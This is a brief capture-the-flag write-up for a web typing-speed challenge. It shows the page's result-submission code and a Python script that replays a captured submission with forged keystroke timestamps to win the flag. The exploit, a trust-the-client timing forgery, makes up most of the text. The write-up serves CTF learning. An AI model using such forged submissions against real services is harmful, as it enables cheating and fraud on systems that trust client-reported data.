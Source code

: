 # gooses-typing-test

```
Written by virchau13

Are you a good typer? The Goose challenges you!
http://challs.watctf.org:3050/ 
```

Visit the website and find the result submission code:

```javascript
fetch(
  ny + '/doneTest',
  {
    method: 'POST',
    body: JSON.stringify({
      startPoint: sl,
      typed: X,
      seed: k
    }),
    headers: {
      'Content-Type': 'application/json'
    }
  }
).then(Q => Q.json()).then(Q => {
  console.log(Q),
  E(Q.msg)
})
```

Therefore, we need to trick the server that we are typing real fast:

```python
import requests
import json

url = "http://challs.watctf.org:3050/doneTest"

body = json.loads(
    '{"startPoint":1757446008365,"typed":[{"key":"u","time":1757446008365},{"key":"p","time":1757446008502},... some keys are omitted],"seed":"0.5670925337976103"}'
)

for i in range(len(body["typed"])):
    body["typed"][i]["time"] = body["startPoint"] + i * 15 + 1

r = requests.post(url, json=body)
print(r.text)
```

The JSON was captured from a real typing test. Only the timing has been changed to get flag. Output:

```json
{"msg":"Wow... you're really fast at typing (624.8698187877526 wpm)! Here's your reward: watctf{this_works_in_more_places_than_youd_think}"}
```
